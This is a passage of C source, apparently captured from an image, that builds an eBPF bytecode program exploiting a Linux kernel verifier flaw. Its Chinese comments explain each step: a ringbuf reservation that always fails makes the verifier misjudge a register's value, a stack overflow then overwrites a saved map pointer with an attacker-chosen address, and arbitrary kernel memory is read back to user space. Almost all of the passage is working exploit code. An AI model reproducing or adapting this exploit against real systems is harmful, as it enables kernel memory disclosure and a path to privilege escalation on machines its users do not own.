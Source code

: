 ```c
    // r1 = r1 + 1
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_1, 1),

    // 不可能发生。ringbuf的大小虽然为PAGE_SIZE，但其中一部分用于存储关于ringbuf的结构体，剩下的才用于存储数据。
    // 因此，请求保留PAGE_SIZE的内存不可能实现。
    // if (r0 != NULL) { ringbuf_discard(r0, 1); exit(2); }
    BPF_JMP_IMM(BPF_JEQ, BPF_REG_0, 0, 5),
    BPF_MOV64_REG(BPF_REG_1, BPF_REG_0),
    BPF_MOV64_IMM(BPF_REG_2, 1),
    BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_ringbuf_discard),
    BPF_MOV64_IMM(BPF_REG_0, 2),
    BPF_EXIT_INSN(),

    // 经过上面的NULL检查后，verifier认为r0=0。
    // 由于r1是由r0派生出来的，因此verifier也会认为r1=0。但实际上，r1=1。

    // r7 = (r1 + 1) * 8
    BPF_MOV64_REG(BPF_REG_7, BPF_REG_1),
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_7, 1),
    BPF_ALU64_IMM(BPF_MUL, BPF_REG_7, 8),

    // verifier认为r7=8，但实际上r7=16。

    // 调试发现array指针都是0xFFFF..........10
    // 将该指针保存到r10-8处
    // *(u64 *)(r10 - 8) = r8
    BPF_STX_MEM(BPF_DW, BPF_REG_10, BPF_REG_8, -8),

    // 向r10-16写入r7=16个字节，覆盖r10-8处的array指针。
    // 写入字节为可控，可将array指针改成任意地址。
    // r0 = bpf_skb_load_bytes_relative(r9, 0, r10-16, r7, 0)
    BPF_MOV64_REG(BPF_REG_1, BPF_REG_9),
    BPF_MOV64_IMM(BPF_REG_2, 0),
    BPF_MOV64_REG(BPF_REG_3, BPF_REG_10),
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_3, -16),
    BPF_MOV64_REG(BPF_REG_4, BPF_REG_7),
    BPF_MOV64_IMM(BPF_REG_5, 1),
    BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_skb_load_bytes_relative),

    // 获取修改后的指针。
    // r6 = *(u64 *)(r10 - 8)
    BPF_LDX_MEM(BPF_DW, BPF_REG_6, BPF_REG_10, -8),
	
    // 获取修改后指针所指向的8个字节数据，实现任意读。
    // 之所以可以读取成功，是因为verifier以为该指针仍为array指针。
    // r0 = *(u64 *)(r6 + 0)
    BPF_LDX_MEM(BPF_DW, BPF_REG_0, BPF_REG_6, 0),
    
    // 将读取的数据写入array map传回用户态。
    // *(u64 *)(r8 + 0) = r0
    BPF_STX_MEM(BPF_DW, BPF_REG_8, BPF_REG_0, 0),

    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN()
};
```
